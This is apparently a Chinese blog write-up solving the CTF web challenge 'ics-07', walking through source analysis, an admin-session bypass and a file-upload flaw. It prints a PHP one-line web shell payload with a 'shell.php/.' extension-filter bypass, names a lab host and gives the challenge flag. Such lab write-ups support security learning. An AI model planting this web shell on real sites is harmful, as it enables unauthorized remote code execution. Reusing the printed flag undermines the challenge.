 # 原创
：  【攻防世界WEB】难度五星15分进阶题：ics-07

# 【攻防世界WEB】难度五星15分进阶题：ics-07

## 二、ics-07

> 

 

<h3>解题方法：</h3>
1、php源码分析，文件上传漏洞，一句话木马


> 
<h3>过程：</h3>
robots.txt什么都没有

 

那随便点，只有这个云平台管理中心可以进去
后面还进行了传参

判断是否存在字符型注入
都加上了单/双引号各一个
都没有报错

判断是否存在数字型注入
and 1=1
and 1=2
发现等号是被编码了


还有一个view-source按钮
点击之后出来源码了

 
<hr/>
对源码进行分析：
代码1：
isset() 函数：检测变量是否已设置并且非 NULL
show_source()函数：对文件进行语法高亮显示
header() 函数：向客户端发送原始的 HTTP 报头

 page传参不能为空（为空就die）
page传参不能有index.php，只能包含flag.php
<hr/>
代码2：
preg_match 函数：执行一个正则表达式匹配
chdir() 函数：改变当前的目录，需规定新目录
fopen() 函数：打开文件或者 URL（并伴随权限）
fwrite () 函数：向文件写入字符串，成功返回写入的字符数，否则返回 FALSE
fclose() 函数：关闭文件

 流程是：
1、先传入
2、进行正则过滤
3、改变目录
4、打开文件
5、写入文件
6、关闭文件
（这有不就是文件上传漏洞嘛，上传一句话木马，或者图片马）
且上传的路径为/uploaded/backup/
<hr/>
代码3：
floatval()：返回变量的浮点值
substr()：截取，这里是截取id的最后以为 必须是9
mysql_real_escape_string() ：转义 SQL 语句中使用的字符串中的特殊字符
mysql_query() ：执行一条 MySQL 查询
mysql_fetch_object() ：从结果集（记录集）中取得一行作为对象

如果输入正确的话，会返回id和user（即是admin）
id：浮点值不为1，并且最后一位要是9，且是字符串（这就特别多了）
前面分析得到：page=flag.php

 获得
id=1
name=admin
<hr/>
思路：
这里最重要的就是达到$_SESSION['admin'] = True
然后再能进行文件上传（上传一句话木马）
然后蚁剑（冰蝎，菜刀）连接
找到flag
<hr/>
发现登录进去并获得id，name了，但是并未跳转到upload页面
（可能是不会显示出来）
尝试POST上传一句话木马
通过代码2中传入的参数，知道是使用con和file
payload：
con=&lt;?php eval($_POST['1']);?&gt;&amp;file=shell.php/.

<hr/>
 
再连接（代码2中知道上传到/uploaded/backup/下）
61.147.171.105:57480/uploaded/backup/shell.php/

 连接进来了<img alt="" height="868" src="https://img-blog.csdnimg.cn/30944864931b4739a819f590fe8408c5.png" width="1200"/>
 在html中找到flag.php

 <img alt="" height="868" src="https://img-blog.csdnimg.cn/e19e602f4c2045e59e983c1c154ffe42.png" width="1200"/>
 cyberpeace{d2f720b48b37fca33797773be4a3c755}


---


---


---


